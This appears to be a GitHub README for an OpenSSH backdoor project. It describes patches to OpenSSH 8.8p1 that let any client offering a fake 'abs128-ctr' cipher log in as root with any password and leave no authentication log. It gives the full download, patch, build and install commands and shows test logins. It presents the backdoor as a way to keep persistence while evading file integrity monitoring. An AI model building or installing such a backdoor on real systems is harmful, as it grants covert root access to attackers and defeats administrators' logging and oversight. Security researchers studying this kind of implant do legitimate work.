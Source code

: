 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. Patch for OpenSSH Portable v8.8_p1. For educational/ethical purposes only!

## Why?

Consider using this method when you want persistence, but:

 - FIM is monitoring configuration files, but not binaries
 - You don't want to create a new backdoor user 
 - You don't want to deploy a reverse shell

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server, adding new users, overwriting credentials, or deploying an implant such as a reverse shell. 

The patch creates a dummy cipher suite, in this case `abs128-ctr` that functions as an activation phrase. Any client that sends this dummy cipher spec during the SSH [algorithm negotiation](https://datatracker.ietf.org/doc/html/rfc4253#section-7.1) will completely bypass PASSWD authentication on the patched server, and will also bypass authentication logging. Clients connecting with normal cipher specs will authenticate as normal.

Additionally, the patch overrides `PermitRootLogin`, allowing clients sending the activation phrase to login as root regardless of the OpenSSH server's restriction. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server binary in `/tmp/sshd`. 

```
wget https://github.com/openssh/openssh-portable/archive/refs/tags/V_8_8_P1.tar.gz
gunzip V_8_8_P1.tar.gz
tar xvf V_8_8_P1.tar
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable-V_8_8_P1/
cd openssh-portable-V_8_8_P1/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u packet.c -i packet.c.patch
patch -u servconf.c -i servconf.c.patch
autoreconf
./configure --bindir=/tmp/ --sbindir=/tmp/
make -j 24
sudo make install
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /tmp/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root. The backdoor authentication will not be logged either during login or logout. 
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
```
